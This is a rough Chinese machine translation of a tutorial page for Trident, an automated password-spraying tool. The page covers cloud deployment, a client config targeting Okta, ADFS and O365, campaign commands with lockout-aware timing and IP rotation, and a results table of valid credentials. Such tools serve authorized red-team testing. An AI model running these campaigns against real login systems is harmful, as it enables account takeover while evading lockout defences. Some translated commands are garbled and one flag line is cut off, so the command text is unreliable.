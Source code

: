 # Trident:自动密码喷射工具

> 原文：<https://kalilinuxtutorials.com/trident/>

[![Trident : Automated Password Spraying Tool](img/95e1a227656f55c16ae29d57a83b1854.png "Trident : Automated Password Spraying Tool")](https://1.bp.blogspot.com/-QmEIMmDRtEk/X6MPXxZn3BI/AAAAAAAAH8I/7SzrwvASUWYtjCnCbyw0YUaulcGDnoAvwCLcBGAsYHQ/s728/Architecture%25281%2529.png)

**Trident** 项目是为满足以下要求而开发的自动化密码喷涂工具:

*   能够部署在多个云平台/执行提供商上
*   根据目标帐户锁定策略安排喷洒活动的能力
*   出于操作安全目的，增加身份验证尝试来源的 IP 池的能力
*   快速扩展功能以包括新遇到的身份认证平台的能力

**架构**

> 该图表是使用[图表](https://diagrams.mingrammer.com)生成的。Go gopher 由 [Renee French](http://reneefrench.blogspot.com/) 设计，并由[CC 3.0](https://creativecommons.org/licenses/by/3.0)授权。

**部署**

部署 trident 需要一个 Google Cloud 项目、一个域名(用于 orchestrator API)和该域的 Cloudflare 访问配置。Cloudflare 访问用于对 orchestrator API 的请求进行身份验证。

brew 安装 cloud flare/cloud flare/cloud flare
brew 安装 terraform

cd 平台
cloudflared 登录
平台初始化
平台计划
平台应用

**安装**

Trident 在[发布](https://github.com/praetorian-inc/trident/releases)页面有一个命令行界面。或者，您可以通过`go get`下载并安装`trident-client`:

GO111MODULE=on 去找 github.com/praetorian-inc/trident/cmd/trident-client

**用途**

**配置**

`**trident-client**`二进制文件向编排器发送 API 请求。它从`**~/.trident/config.yaml**`中读取，格式如下:

orchestrator-URL:https://trident.example.org
提供商:
okta:
子域:示例
adfs:
域:adfs.example.org
o365:
域:login.microsoft.com

**活动**

使用有效的`config.yaml`，`trident-client`可用于创建密码喷涂活动，如下所示:

trident-client campaign-u usernames . txt-p passwords . txt–间隔 5s–窗口 120s

`**--interval**`选项允许操作员在凭证尝试之间插入延迟。`**--window**`选项允许操作员设置活动的硬停止时间。其他参数记录如下:

**用法:**
trident-CLI campaign[Flags]

**Flags:**
-a，–auth-provider string 这是您正在攻击的认证平台(默认为“okta”)
-h，–help campaign
-I，–interval duration 请求将在它们之间的这个间隔内发生(默认为 1s)
-b，–not before string 请求不会在此时间之前开始(默认为“2020-09-09T22:31:

**结果**

`results`子命令可用于查询结果表。此子命令有几个选项，但默认显示所有活动的所有有效凭据。

```
$ trident-client results
+----+-------------------+------------+-------+
| ID | USERNAME          | PASSWORD   | VALID |
+----+-------------------+------------+-------+
|  1 | alice@example.org | Password1! | true  |
|  2 | bob@example.org   | Password2! | true  |
|  3 | eve@example.org   | Password3! | true  |
+----+-------------------+------------+-------+
```

*   其他参数记录如下:

**用法:**
trident-CLI results[Flags]

**Flags:**
-f，–filter string 对 db 结果进行过滤(在 json 中指定)(默认为' {"valid":true}')
-h，–help 对结果的帮助
-o，–output-format string 输出格式(table，csv，JSON)(默认为" table")
-r，–return string 您希望从结果中看到的字段列表(逗号分隔的字符串)(默认")

[**Download**](https://github.com/praetorian-inc/trident)